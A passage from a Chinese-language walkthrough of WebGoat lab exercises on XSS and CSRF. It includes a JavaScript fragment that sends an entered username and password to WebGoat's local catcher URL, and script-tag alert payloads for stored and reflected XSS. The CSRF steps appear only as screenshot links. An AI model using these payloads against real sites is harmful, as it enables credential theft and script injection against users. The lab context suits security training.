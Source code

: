 ```javascript
    XSSimage.src='http://localhost/WebGoat/catcher?PROPERTY=yes&user='+username+'&password='+password+'';
    alert('XSS:' + XSSimage.src);
    ">
        login
    </button>
</div>
```

结果如下

![image-20220506154720792](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220506154720792.png)

##### Stage 1: Stored XSS

在个人界面的street栏修改为以下代码`<script>alert("attack");</script>`

![image-20220506160108963](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220506160108963.png)

##### Stage 3: Stored XSS Revisited

进入david界面后view bruce的个人界面

![image-20220506160622070](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220506160622070.png)

##### Stage 5: Reflected XSS

在搜索框中输入`<script>alert("attack!");</script>`,别的用户点击搜索时会受到攻击

![image-20220506162811523](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220506162811523.png)

##### Stored XSS Attacks

输入`<script>alert("attack!");</script>`完成XSS攻击

![image-20220506162815329](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220506162815329.png)

##### Cross Site Request Forgery (CSRF)

在message中输入以下代码，别的用户点击这个message时会被攻击

![image-20220506164253538](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220506164253538.png)

![image-20220506164331854](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220506164331854.png)

##### CSRF Prompt By-Pass

多增加一段用于确认confirm的代码

![image-20220506164730007](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220506164730007.png)

![image-20220506164755409](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220506164755409.png)

##### CSRF Token By-Pass
